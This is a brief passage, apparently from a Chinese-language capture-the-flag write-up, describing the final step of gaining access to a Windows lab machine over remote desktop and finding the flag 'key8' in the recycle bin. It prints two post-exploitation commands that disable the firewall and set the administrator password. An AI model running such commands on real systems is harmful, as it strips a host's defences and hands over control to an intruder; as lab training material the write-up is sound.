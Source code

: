 
然后关闭防火墙并添加一个新的RDP用户
```
netsh firewall set opmode disable
net user administrator 123Abc.
```
![upload successful](/images/pasted-925.png)

成功3389进入系统，回收站的名字为key8，结束
![upload successful](/images/pasted-926.png)

